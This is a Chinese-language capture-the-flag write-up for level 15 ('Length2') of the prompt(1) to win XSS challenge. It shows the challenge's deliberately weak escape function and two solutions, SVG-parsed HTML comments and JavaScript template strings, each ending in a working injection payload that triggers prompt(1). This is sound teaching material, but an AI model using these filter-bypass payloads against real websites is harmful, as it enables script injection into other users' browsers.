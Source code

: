 ## [[prompt(1) to win](http://prompt.ml)] [[Level F – Length2](http://prompt.ml/15)] [[解题报告](http://exp-blog.com/2019/03/25/pid-3730/)]

------

## 题目

```javascript
function escape(input) {
    // sort of spoiler of level 7
    input = input.replace(/\*/g, '');
    // pass in something like dog#cat#bird#mouse...
    var segments = input.split('#');

    return segments.map(function(title, index) {
        // title can only contain 15 characters
        return '<p class="comment" title="' + title.slice(0, 15) + '" data-comment=\'{"id":' + index + '}\'></p>';
    }).join('\n');
}
```

## 解题报告

这题与 【[Level 7 - Length](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2007%20-%20Length)】 十分相似，区别在于：

- 长度限制从 12 放宽到 15
- `*` 被过滤，导致 JS 注释 `/* */` 不可用


------------

### 解法一：SVG 注释

换言之，要解决这题，就需要**使用另一种方法实现多行注释**。我第一时间想到的就是 HTML 注释 `<!--   -->` 。

但是这题在 HTML 中穿插着 JS 代码，而在默认 HTML 语境下， HTML 注释是没办法在 JS 代码中使用的。

为了解决这个问题，可以借助 `<svg>` 标签强制解析 XML 语法的特点：

在 `<svg>` 标签中若包含 JS 代码，即使使用 HTML 注释 `<!--   -->` 也是可以被成功解析的。

例如：

```html
<svg>
    <!-- xxxx -->
    <script>
        <!-- yyyy -->
        alert(1)
        <!-- zzzz -->
        alert(2)
    </script>
</svg>
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2015%20-%20Length2/imgs/01.png)


------------

那么这题的答案的呼之欲出了，我们只需要最终构造成这样的代码即可：

```html
<p class="comment" title=""><svg><!--    " data-comment='{"id":0}'></p>
<p class="comment" title="--><script><!--" data-comment='{"id":1}'></p>
<p class="comment" title="-->prompt<!--  " data-comment='{"id":2}'></p>
<p class="comment" title="-->(1)</script>" data-comment='{"id":3}'></p>
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2015%20-%20Length2/imgs/02.png)

从而可以反推出这题的 payload 为（*注意此处去掉了前面测试时的全部空格，那些空格只是为了便于对齐观察注入点，没有什么作用，保留或删除均可*）： `"><svg><!--#--><script><!--#-->prompt<!--#-->(1)</script>`

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2015%20-%20Length2/imgs/03.png)


------------

### 解法二：模板字符串

这题其实还有另一种解法，可以使用 [模板字符串](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/template_strings) 解题。

在 JS 中，可以使用 倒引号（或反引号）包围字符串，字符串中再以 `${expression}` 方式入表达式，这样表达式就会被执行，例如：

```javascript
<script>
    `<a="1" b='2'> ${prompt(1)} by exp`
</script>
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2015%20-%20Length2/imgs/04.png)

回到这题，我们只需要最终构造成这样的代码即可：

```html
<p class="comment" title=""><script>`    " data-comment='{"id":0}'></p>
<p class="comment" title="${prompt(1)}   " data-comment='{"id":1}'></p>
<p class="comment" title="`</script>     " data-comment='{"id":2}'></p>
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2015%20-%20Length2/imgs/05.png)

从而可以反推出这题的 payload 为（*注意此处去掉了前面测试时的全部空格，那些空格只是为了便于对齐观察注入点，没有什么作用，保留或删除均可*）： 

```html
"><script>`#${prompt(1)}#`</script>
```

> 注：这个 payload 也可用于 【[Level 7 - Length](https://github.com/lyy289065406/CTF-Solving-Reports/tree/master/prompt/Level%2007%20-%20Length)】 。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/prompt/Level%2015%20-%20Length2/imgs/06.png)

------

## 版权声明

　[![Copyright (C) 2016-2019 By EXP](https://img.shields.io/badge/Copyright%20(C)-2016~2019%20By%20EXP-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------

